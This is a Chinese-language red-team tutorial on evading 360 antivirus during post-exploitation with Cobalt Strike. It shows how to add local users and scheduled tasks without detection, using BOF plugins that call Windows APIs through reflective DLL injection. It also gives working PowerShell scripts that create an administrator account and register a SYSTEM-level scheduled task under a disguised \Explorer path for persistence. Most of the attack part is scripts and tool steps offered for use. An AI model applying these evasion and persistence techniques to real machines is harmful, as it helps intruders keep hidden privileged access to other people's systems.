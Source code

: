 # 前言

通常情况下直接执行cmd命令来添加用户或者计划任务都会被杀软拦截，我总结两种方法来绕过杀软的检测，分别是调用Windows Api(编写CS bof)或者执行Powershell脚本(通过模拟powershell环境的程序来执行)



# 添加用户

## 拦截情景

在开启360核晶模式的环境下，在UI界面执行添加用户的命令都会被拦截

<img src="绕杀软添加计划任务/image-20230719165242670.png" alt="image-20230719165242670" style="zoom:67%;" />	



更别说是在beacon命令行界面执行添加用户命令了，这里我分别尝试使用shell命令和run命令来添加用户，均被核晶拦截了

> `shell`命令：此命令允许你执行Windows命令提示符（cmd.exe）中的任何命令。执行的命令将在命令提示符中运行，并将其输出返回给CobaltStrike。这是一个交互式命令，意味着你可以在输出返回后立即输入下一个命令
>
> `run`命令：此命令用于在新的进程中运行程序或命令。与`shell`命令不同，它只是启动新的进程并返回。

<img src="绕杀软添加计划任务/image-20230719172245374.png" alt="image-20230719172245374" style="zoom:67%;" />	

<img src="绕杀软添加计划任务/image-20230719172254551.png" alt="image-20230719172254551" style="zoom:67%;" />			



## 绕过方法

### 1.CS bof

在Windows API中，有一些函数用于处理网络用户和本地组的管理。`NetUserAdd()` 函数用于在一个服务器上创建一个新用户，而 `NetLocalGroupAdd()` 函数可以用于在一个本地服务器上创建一个新的用户组

此CS插件整合了添加用户的API，并通过反射dll注入的方式实现无文件落地执行，github项目地址：https://github.com/crisprss/BypassUserAdd

首先确定beacon进程拥有system权限，这里我使用此插件添加用户的第一个方法`Reflection NetUserAdd`，随后输入添加用户名及密码

![image-20230719173255080](绕杀软添加计划任务/image-20230719173255080.png)		

![image-20230719173506171](绕杀软添加计划任务/image-20230719173506171.png)	



运行成功后在beacon命令行会提示

![image-20230719173601290](绕杀软添加计划任务/image-20230719173601290.png)



核晶全程没有查杀，cmd命令行输入`net user`可以发现user4用户添加成功了

<img src="绕杀软添加计划任务/image-20230719173723893.png" alt="image-20230719173723893" style="zoom:67%;" />



### 2.Powershell脚本

以下是添加用户的Powershell脚本

```powershell
# 使用管理员权限运行此脚本

# 定义新用户的用户名和密码
$userName = "NewUser"
$password = ConvertTo-SecureString "Password123" -AsPlainText -Force

# 创建本地用户账户
New-LocalUser -Name $userName -Password $password -FullName "New User" -Description "This is a new user."

# 添加新用户到 "Users" 组
Add-LocalGroupMember -Group "Administrators" -Member $userName

# 输出创建的用户信息
Get-LocalUser -Name $userName
```



以下是执行powershell脚本的效果图：

![image-20230721145437347](绕杀软添加计划任务/image-20230721145437347.png)

​	

# 添加计划任务	

## 拦截情景

beacon命令行执行shell命令来添加计划任务，直接被核晶拦截

```
schtasks /create /tn "My Task" /tr "C:\MyApp.exe" /sc daily /st 10:00
```

![image-20230719204529199](绕杀软添加计划任务/image-20230719204529199.png)



## 绕过方法

### 1.CS bof

在Windows api中，你可以使用 Task Scheduler （任务计划程序）API 来创建和管理计划任务。任务计划程序 API 是一组 COM 接口，你可以通过各种编程语言（如 C++，C#，VBScript 等）来使用它

CobaltStrike有个叫Bof的功能，它允许你使用C语言来扩展Beacon的功能，运行时可以直接加载到内存中并执行，因此可以通过编写创建计划任务的bof来绕过一些杀软的检测	此处github上有现成的项目：https://github.com/yanghaoi/CobaltStrike_CNA	

加载github项目的插件后，鼠标右键上线会话，`Persistence`->`计划任务`->`Add-TaskAPI`, 通过调用Windows API来添加计划任务

![image-20230719212549620](绕杀软添加计划任务/image-20230719212549620.png)



设置添加计划任务的详细信息

![image-20230719212712261](绕杀软添加计划任务/image-20230719212712261.png)	



添加计划任务后, 会在Beacon命令行提示任务创建成功

![image-20230719212734715](绕杀软添加计划任务/image-20230719212734715.png)



查看目标主机的计划任务列表，可以看到计划任务添加成功了，并且360核晶全程没有报毒

<img src="绕杀软添加计划任务/image-20230719212935726.png" alt="image-20230719212935726" style="zoom:67%;" />	



### 2.PowerShell脚本

配合模拟powershell环境的可执行程序执行ps1脚本，以此实现添加计划任务，如下是添加计划任务的ps1脚本代码

```powershell
# 定义任务的名称、要运行的程序和参数、描述信息
$taskName = "\Explorer\test1"
$programPath = "C:\Path\To\Your\Program\MyProgram.exe"
$programArgs = "base64"
$taskDescription = "This is a scheduled task running a program daily at 12:00 PM."


# 如果任务已经存在，先删除
if((Get-ScheduledTask | Where-Object { $_.TaskName -eq $taskName }) -ne $null) {
    Unregister-ScheduledTask -TaskName $taskName -Confirm:$false
}

# 设定触发器
$trigger = New-ScheduledTaskTrigger -Daily -At 17:56pm  #在每天的12:00 PM运行任务
#$trigger = New-ScheduledTaskTrigger -AtStartup       #在每次启动时运行任务
#$trigger = New-ScheduledTaskTrigger -AtIdle          #在系统空闲时运行任务 

# 设定任务的操作，即要运行的程序和参数
$action = New-ScheduledTaskAction -Execute $programPath -Argument $programArgs

# 创建一个以系统权限运行的计划任务
$principal = New-ScheduledTaskPrincipal -UserID "NT AUTHORITY\SYSTEM" -LogonType ServiceAccount -RunLevel Highest

# 创建计划任务
Register-ScheduledTask -TaskName $taskName -Trigger $trigger -Action $action -Principal $principal -Description $taskDescription

# 删除指定的计划任务
# $taskToDelete = "\Explorer\test2"
# if((Get-ScheduledTask | Where-Object { $_.TaskName -eq $taskToDelete }) -ne $null) {
    # Unregister-ScheduledTask -TaskName $taskToDelete -Confirm:$false
# }
```



运行效果如下图所示：

![image-20230721150156077](绕杀软添加计划任务/image-20230721150156077.png)						

